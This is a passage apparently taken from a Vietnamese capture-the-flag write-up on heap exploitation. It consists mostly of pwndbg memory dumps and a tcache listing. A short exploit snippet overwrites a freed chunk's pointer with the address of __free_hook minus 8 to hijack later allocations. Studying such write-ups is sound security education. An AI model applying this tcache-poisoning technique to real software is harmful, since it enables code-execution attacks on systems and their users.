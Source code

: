                 0x5555555590f0: 0x0000000000000000      0x0000000000000000
                0x555555559100: 0x0000000000000000      0x0000000000000000
                0x555555559110: 0x0000000000000000      0x0000000000000000
                0x555555559120: 0x0000000000000000      0x0000000000000000
                0x555555559130: 0x0000000000000000      0x0000000000000000
                0x555555559140: 0x0000000000000000      0x0000000000000000
                0x555555559150: 0x0000000000000000      0x0000000000000000
                0x555555559160: 0x0000000000000000      0x0000000000000000
                0x555555559170: 0x0000000000000000      0x0000000000000000
                0x555555559180: 0x0000000000000000      0x00005555555592c0
                0x555555559190: 0x0000000000000000      0x0000000000000000
                0x5555555591a0: 0x0000000000000000      0x0000000000000000
                0x5555555591b0: 0x0000000000000000      0x0000000000000000
                0x5555555591c0: 0x0000000000000000      0x0000000000000000
                0x5555555591d0: 0x0000000000000000      0x0000000000000000
                0x5555555591e0: 0x0000000000000000      0x0000000000000000
                0x5555555591f0: 0x0000000000000000      0x0000000000000000
                0x555555559200: 0x0000000000000000      0x0000000000000000
                0x555555559210: 0x0000000000000000      0x0000000000000000
                0x555555559220: 0x0000000000000000      0x0000000000000000
                0x555555559230: 0x0000000000000000      0x0000000000000000
                0x555555559240: 0x0000000000000000      0x00005555555593d0    <- addr free chunk
                0x555555559250: 0x0000000000000000      0x0000000000000000
                0x555555559260: 0x0000000000000000      0x0000000000000000
                0x555555559270: 0x0000000000000000      0x0000000000000000
                ```
                
            - Giờ ta sẽ malloc lại 1 size 0x210 để edit overwrite địa chỉ trên và đây là lí do mình nói ở phần leak libc vì chunk này gần với chunk đã được free nên ta có thể overwrite được.
                
                ```python
                pwndbg> bin
                tcachebins
                0x210 [  1]: 0x5555555592c0 ◂— 0x0
                0x390 [  1]: 0x5555555593d0 ◂— 0x0
                ```
                
            - Giờ malloc (0x1f7 | 0x80 +8) và overwrite địa chỉ trên.
                
                ```python
                create(0x17f) 
                payload = "a"*0x80 
                payload += "\x00"*0x4
                payload += p64(free_hook-0x8)
                edit(payload)
                
                pwndbg> x/80xg 0x555555559000
                0x555555559000: 0x0000000000000000      0x0000000000000291
                0x555555559010: 0x0000000000000000      0x0000000000000000
                0x555555559020: 0x0000000000000000      0x0000000000000000
                0x555555559030: 0x0000000000000000      0x0000000000000000
                0x555555559040: 0x0000000000000000      0x0000000000000000
                0x555555559050: 0x0000000000000000      0x0000000000000000
                0x555555559060: 0x0000000000000000      0x0000000000000000
                0x555555559070: 0x0000000000000000      0x0001000000000000
                0x555555559080: 0x0000000000000000      0x0000000000000000
                0x555555559090: 0x0000000000000000      0x0000000000000000
                0x5555555590a0: 0x0000000000000000      0x0000000000000000
                0x5555555590b0: 0x0000000000000000      0x0000000000000000
                0x5555555590c0: 0x0000000000000000      0x0000000000000000
                0x5555555590d0: 0x0000000000000000      0x0000000000000000
                0x5555555590e0: 0x0000000000000000      0x0000000000000000
                0x5555555590f0: 0x0000000000000000      0x0000000000000000
                0x555555559100: 0x0000000000000000      0x0000000000000000
                0x555555559110: 0x0000000000000000      0x0000000000000000
                0x555555559120: 0x0000000000000000      0x0000000000000000